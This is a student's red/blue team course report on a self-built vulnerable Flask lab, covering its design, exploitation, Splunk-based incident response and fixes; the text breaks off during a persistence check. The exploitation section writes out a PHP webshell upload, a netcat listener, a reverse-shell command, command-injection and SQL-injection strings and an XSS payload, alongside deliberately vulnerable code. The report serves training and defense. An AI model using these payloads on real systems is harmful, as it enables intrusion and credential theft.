# Masar v10 — Red/Blue Team Final Project Report

**Course:** Software Analysis and Design for Cybersecurity  
**Institution:** Applied Science University  
**Student:** Amin Majdi Al-Sammar  
**Roles:** All Four Roles (Architecture, Red Team, Blue Team, Mitigation)  
**Target IP:** 192.168.117.138  
**Submission Date:** 7 May 2026  

---

## Abstract

This report documents a full Red/Blue team attack and defense lifecycle conducted on a controlled single-machine Kali Linux lab environment. A vulnerable Flask web application was built from scratch containing four intentional vulnerabilities: unrestricted file upload (CWE-434), OS command injection (CWE-78), cross-site scripting (CWE-79), and SQL injection (CWE-89). All four vulnerabilities were successfully exploited during the penetration testing phase, achieving Remote Code Execution via both webshell upload and reverse shell. The Splunk SIEM captured all attack traffic in real time, enabling full attack timeline reconstruction during the incident response phase. Code-level patches were applied and verified through re-exploitation testing, confirming all vulnerabilities were remediated.

---

## Section 1: Introduction

### 1.1 Project Background and Motivation

Modern cybersecurity requires professionals who understand both offensive and defensive perspectives. This project simulates a real-world attack and defense scenario within a controlled lab environment, providing hands-on experience with penetration testing, SIEM-based detection, incident response, and secure code development. By taking ownership of all four roles, this report demonstrates a complete understanding of the full attack-defense lifecycle.

### 1.2 Objectives and Scope

The project objectives were to deploy a vulnerable web application, perform a black-box penetration test, reconstruct the attack timeline using a SIEM, and apply code-level fixes verified by re-exploitation. The scope was limited to the local lab machine at IP address 192.168.117.138.

### 1.3 Team Structure and Role Distribution

Since this project was completed individually, all four roles were fulfilled by a single student:

| Role | Responsibility |
|------|---------------|
| Student 1 — Architecture | Lab deployment, SIEM setup, log forwarding |
| Student 2 — Red Team | Black-box penetration testing, exploitation |
| Student 3 — Blue Team | IR investigation, timeline reconstruction, detection queries |
| Student 4 — Mitigation | Code fixes, re-exploitation verification |

### 1.4 Lab Environment Summary

The entire lab was deployed on a single Kali Linux virtual machine. The Flask vulnerable web application runs behind an Apache reverse proxy on port 80. Splunk Enterprise 10.2.2 serves as the SIEM, monitoring Apache access logs and live bash history. All attack activity targets 192.168.117.138 on port 80.

---

## Section 2: Architecture & Infrastructure (Student 1)

### 2.1 Lab Design Overview

The lab simulates a three-tier Red/Blue environment on a single Kali Linux host. Flask serves the vulnerable application on port 5000 behind Apache on port 80. All HTTP requests are logged via Apache's combined log format and ingested by Splunk. A live bash history hook captures every shell command executed on the machine in real time.

### 2.2 Virtual Machine Specifications

#### 2.2.1 VM1 — Target Machine

| Property | Value |
|----------|-------|
| Operating System | Kali Linux (rolling) |
| IP Address | 192.168.117.138 |
| Web Server | Apache 2.4.66 on port 80 |
| Application | Flask 3.x on port 5000 |
| Apache Log | /var/log/apache2/vulnlab_access.log |
| Bash History Log | /var/log/bash_history_live.log |

#### 2.2.2 VM2 — SIEM Machine (Same Host)

| Property | Value |
|----------|-------|
| SIEM Solution | Splunk Enterprise 10.2.2 |
| Dashboard URL | http://127.0.0.1:8000 |
| Indexes | vulnlab_web, vulnlab_shell |
| Data Inputs | File monitor: Apache access log + bash history |

#### 2.2.3 VM3 — Attacker Machine (Same Host)

All offensive activity originates from the same machine targeting 192.168.117.138. This is functionally equivalent to a separate attacker machine per the project specification which states three VMs are optional.

### 2.3 Vulnerable Web Application

#### 2.3.1 Application Overview and Technology Stack

| Component | Technology |
|-----------|-----------|
| Language | Python 3.13 |
| Framework | Flask 3.x |
| Web Server | Apache 2.4.66 (mod_proxy reverse proxy) |
| Database | SQLite (sqlite3 module) |
| Templates | Jinja2 (auto-escaping intentionally disabled) |

The application is named VulnLab and is accessible at http://192.168.117.138/. It exposes four deliberately vulnerable endpoints for Red/Blue team training.

#### 2.3.2 Vulnerability 1: File Upload (CWE-434)

**Endpoint:** POST /upload

The upload handler saves files using the original filename with no extension validation, MIME checking, or content inspection. Files are stored in /uploads/ and served directly, enabling webshell execution.

**Vulnerable Code:**

```python
filename = f.filename # No sanitization
save_path = os.path.join(UPLOAD_DIR, filename)
f.save(save_path) # Saved directly — no type check
```

#### 2.3.3 Vulnerability 2: OS Command Injection (CWE-78)

**Endpoint:** POST /cmd

The ping utility concatenates user input directly into a shell command using subprocess.run(shell=True), allowing semicolon-separated command injection.

**Vulnerable Code:**

```python
cmd_str = f'ping -c 2 {host}'
result = subprocess.run(cmd_str, shell=True, ...)
```

#### 2.3.4 Vulnerability 3: Cross-Site Scripting (CWE-79)

**Endpoint:** GET/POST /xss

Both reflected XSS (via ?search= parameter) and stored XSS (via comment board) are implemented using Jinja2's Markup() class to disable auto-escaping.

**Vulnerable Code:**

```python
search_output = Markup(search) # Reflected XSS — no escaping
comments = [(a, Markup(b), t) for ...] # Stored XSS — raw HTML rendered
```

#### 2.3.5 Vulnerability 4: SQL Injection (CWE-89)

**Endpoint:** POST /login

The login form builds raw SQL queries via Python f-strings. No parameterized queries are used and the executed query is exposed on the page.

**Vulnerable Code:**

```python
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
c.execute(query) # Raw string executed directly
```

### 2.4 Log Forwarding Setup

#### 2.4.1 Apache Log Ingestion

Apache virtual host configured to log all requests to /var/log/apache2/vulnlab_access.log using the combined log format.

| Field | Value |
|-------|-------|
| Monitor Path | /var/log/apache2/vulnlab_access.log |
| Source Type | access_combined |
| Index | vulnlab_web |
| Mode | Continuous file monitor |

#### 2.4.2 Bash History Capture

A precmd() hook added to /etc/zsh/zshrc writes every executed command with timestamp to /var/log/bash_history_live.log in real time:

```bash
precmd() {
  echo "$(date +"%Y-%m-%d %H:%M:%S") $(whoami)@$(hostname) [$$]: \
$(history 1 | sed 's/^[ ]*[0-9]*[ ]*//')" >> /var/log/bash_history_live.log
}
```

| Field | Value |
|-------|-------|
| Monitor Path | /var/log/bash_history_live.log |
| Source Type | syslog |
| Index | vulnlab_shell |
| Mode | Continuous file monitor |

### 2.5 SIEM Deployment

#### 2.5.1 Installation and Configuration

Splunk Enterprise 10.2.2 installed via the official .deb package:

```bash
sudo dpkg -i splunk-10.2.2-linux-amd64.deb
sudo /opt/splunk/bin/splunk start --accept-license --answer-yes --run-as-root
sudo /opt/splunk/bin/splunk enable boot-start
```

#### 2.5.2 Log Verification and Index Confirmation

Both indexes confirmed receiving live data:

```spl
index=vulnlab_web | head 20
index=vulnlab_shell | head 20
```

### 2.6 Architecture Diagram


```
┌─────────────────────────────────────────────────────────────┐
│                  Kali Linux — 192.168.117.138               │
│                                                             │
│  ┌──────────────────────────┐  ┌────────────────────────┐  │
│  │    Flask VulnLab App     │  │   Splunk Enterprise    │  │
│  │       (port 5000)        │  │      (port 8000)       │  │
│  │  /upload  → CWE-434      │  │  Index: vulnlab_web    │  │
│  │  /xss     → CWE-79       │  │  Index: vulnlab_shell  │  │
│  │  /cmd     → CWE-78       │  │  File Monitor inputs   │  │
│  │  /login   → CWE-89       │  └────────────▲───────────┘  │
│  └──────────┬───────────────┘               │              │
│             │                               │              │
│  ┌──────────▼───────────────┐               │              │
│  │  Apache 2.4  (port 80)   │──── Logs ─────┘              │
│  │    Reverse Proxy         │                              │
│  │  vulnlab_access.log      │                              │
│  └──────────────────────────┘                              │
│  /var/log/bash_history_live.log ─────────────────────────▶ │
└─────────────────────────────────────────────────────────────┘
```

---

## Section 3: Penetration Testing Report (Student 2)

### 3.1 Engagement Overview

#### 3.1.1 Scope and Rules of Engagement

| Field | Details |
|-------|---------|
| Target | VulnLab Web Application |
| Target IP | 192.168.117.138 |
| Target Ports | 80 (HTTP), 5000 (Flask direct) |
| Testing Type | Black-Box Penetration Test |
| Scope | All endpoints on 192.168.117.138 |
| Out of Scope | Any host other than 192.168.117.138 |

#### 3.1.2 Methodology (Black Box)

Testing followed the standard black-box methodology: Reconnaissance → Vulnerability Assessment → Exploitation → Post-Exploitation → Reporting.

#### 3.1.3 Tools Used

| Tool | Purpose |
|------|---------|
| nmap | Port scanning and service detection |
| gobuster | Web directory enumeration |
| curl | HTTP request crafting |
| netcat | Reverse shell listener |
| Browser DevTools | XSS verification |

### 3.2 Reconnaissance and Enumeration

#### 3.2.1 Port Scan

```bash
nmap -sV -sC -p 22,80,443,3000,5000,8000,8080,8443 192.168.117.138
```



*Figure 1: Nmap scan — ports 80 and 5000 open running Werkzeug httpd 3.1.5 (Python 3.13.12). SSH filtered. Werkzeug debug mode active on port 5000.*

**Key findings:**
- Port 80 and 5000: Flask/Werkzeug application (VulnLab)
- Port 5000: Werkzeug debug mode active — additional RCE vector
- Port 22, 443, 8000: Filtered

#### 3.2.2 Directory Enumeration

```bash
gobuster dir -u http://192.168.117.138 -w /usr/share/wordlists/dirb/common.txt
```



*Figure 2: Gobuster — discovered /cmd (200), /console (400 — Werkzeug debugger), /login (200), /upload (200)*

| Path | Status | Description |
|------|--------|-------------|
| /cmd | 200 | OS command injection utility |
| /console | 400 | Werkzeug debug console (bonus finding) |
| /login | 200 | SQL injection login portal |
| /upload | 200 | Unrestricted file upload |

### 3.3 Vulnerability Assessment

**Risk Summary**

| # | Vulnerability | Endpoint | CWE | CVSS | Risk |
|---|--------------|----------|-----|------|------|
| 1 | Unrestricted File Upload | /upload | CWE-434 | 9.8 | Critical |
| 2 | OS Command Injection | /cmd | CWE-78 | 9.8 | Critical |
| 3 | SQL Injection | /login | CWE-89 | 9.8 | Critical |
| 4 | Stored XSS | /xss (POST) | CWE-79 | 8.2 | High |
| 5 | Reflected XSS | /xss (GET) | CWE-79 | 6.1 | Medium |

### 3.4 Exploitation

#### 3.4.1 File Upload — Webshell Upload and RCE

A PHP webshell was crafted and uploaded via the /upload endpoint:

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
curl -F "file=@/tmp/shell.php" http://192.168.117.138/upload
```



*Figure 3: shell.php successfully uploaded — server responds with 200 and lists the file in /uploads/*

RCE confirmed by accessing the webshell:

```bash
curl "http://192.168.117.138/uploads/shell.php?cmd=id"
```



*Figure 4: RCE confirmed — webshell returns uid=33(www-data) gid=33(www-data)*

#### 3.4.2 Reverse Shell via Webshell

A Python reverse shell payload was delivered through the webshell. Netcat listener started on port 4444:

```bash
nc -lvnp 4444
```

Python payload sent via webshell:

```bash
curl -g "http://192.168.117.138/uploads/shell.php?cmd=python3+-c+'import+socket,subprocess,os;...'"
```



*Figure 5: Interactive reverse shell established — id, whoami (www-data), hostname (kali), uname -a, pwd, ls / all confirmed*

#### 3.4.3 OS Command Injection

The /cmd endpoint was exploited by injecting a system command after the ping:

```bash
curl -s -X POST http://192.168.117.138/cmd -d "host=127.0.0.1 ; id"
```



*Figure 6: OS command injection via curl — 127.0.0.1 ; id payload submitted, command executed server-side*

#### 3.4.4 SQL Injection — Authentication Bypass

Authentication bypass using admin'-- which comments out the password check:

```
Username: admin'--
Password: anything
```



*Figure 7: SQLi auth bypass confirmed — "[+] Login successful — administrator: admin (id=1)" without knowing the password. Executed query visible: SELECT * FROM users WHERE username='admin'--' AND password='anything'*

#### 3.4.5 SQL Injection — UNION-Based Credential Dump

```
Username: ' UNION SELECT 1,username,password,role FROM users--
```



*Figure 8: UNION-based credential dump — all usernames, passwords, and roles extracted. Admin password exposed in plaintext.*

#### 3.4.6 Cross-Site Scripting

Reflected XSS via curl (server response confirmation):

```bash
curl -s "http://192.168.117.138/xss?search=<script>alert(1)</script>" | grep -o "alert(1)"
```



*Figure 9: XSS payload confirmed in server response — alert(1) appears in the HTML source, confirming reflection*

XSS popup in browser:



*Figure 10: Reflected XSS alert popup firing in Firefox — payload `<script>alert(1)</script>` executes from the ?search= parameter*

### 3.5 Recommendations (Handed to Student 4)

- **File Upload:** Implement extension whitelist, rename files to UUIDs, store outside web root
- **OS Command Injection:** Use subprocess.run() list form with no shell=True, validate input with strict IPv4 regex
- **SQL Injection:** Use parameterized queries with ? placeholders, remove debug SQL display
- **XSS:** Remove all Markup() calls, rely on Jinja2 auto-escaping, implement Content Security Policy

---

## Section 4: Incident Response & Detection (Student 3)

### 4.1 Investigation Methodology

The investigation followed a structured IR approach: log collection from Splunk, attack timeline reconstruction by correlating Apache access logs and bash history, containment by removing the webshell and verifying no persistence, and detection engineering by writing Splunk queries for each vulnerability class.

### 4.2 SIEM-Based Timeline Reconstruction

#### 4.2.1 Full Attack Timeline — Apache Log Correlation

```spl
index=vulnlab_web | table _time, clientip, uri, status | sort _time
```



*Figure 11: Splunk timeline — 4,708 events captured. Attack sequence visible: /xss, /upload, /login, /cmd all hit from 192.168.117.138*

#### 4.2.2 Webshell Upload and Execution Events

```spl
index=vulnlab_web uri="*upload*" | table _time, clientip, uri, status
```



*Figure 12: 32 upload-related events. shell.php upload (200) followed by execution requests: cmd=id, cmd=whoami, cmd=hostname, cmd=uname -a, reverse shell attempts*

#### 4.2.3 Full Attack Chain in Logs



*Figure 13: Complete attack chain visible — python3 reverse shell payload, bash -i redirect, cat /etc/passwd, ls /var/www/, cmd=whoami, cmd=hostname, cmd=uname -a all logged*

#### 4.2.4 Correlated Attack Timeline

| Time | Source IP | URI | Description |
|------|-----------|-----|-------------|
| T+0 | 192.168.117.138 | / | Initial reconnaissance |
| T+1 | 192.168.117.138 | /upload (POST) | Webshell upload |
| T+2 | 192.168.117.138 | /uploads/shell.php?cmd=id | RCE — identity check |
| T+3 | 192.168.117.138 | /uploads/shell.php?cmd=whoami | RCE — user check |
| T+4 | 192.168.117.138 | /uploads/shell.php?cmd=uname+-a | RCE — OS fingerprint |
| T+5 | 192.168.117.138 | /uploads/shell.php?cmd=cat+/etc/passwd | Credential file access |
| T+6 | 192.168.117.138 | /uploads/shell.php?cmd=bash+-i+... | Reverse shell attempt |
| T+7 | 192.168.117.138 | /uploads/shell.php?cmd=python3+-c+... | Reverse shell (Python) |
| T+8 | 192.168.117.138 | /cmd (POST) | OS command injection |
| T+9 | 192.168.117.138 | /login (POST) | SQL injection auth bypass |
| T+10 | 192.168.117.138 | /xss?search=... | XSS reflected test |

### 4.3 Containment and Remediation

#### 4.3.1 Webshell Identification and Deletion

```bash
ls /home/kali/Desktop/masar_vuln_app/uploads/
# shell.php identified

rm /home/kali/Desktop/masar_vuln_app/uploads/shell.php

ls /home/kali/Desktop/masar_vuln_app/uploads/
# Directory empty — webshell removed
```

#### 4.3.2 Persistence Check and Clearance Confirmation

```bash
crontab -l           # No crontabs for kali
sudo crontab -l      # No crontabs for root
find /tmp -type f    # Only flask.log and system temp files
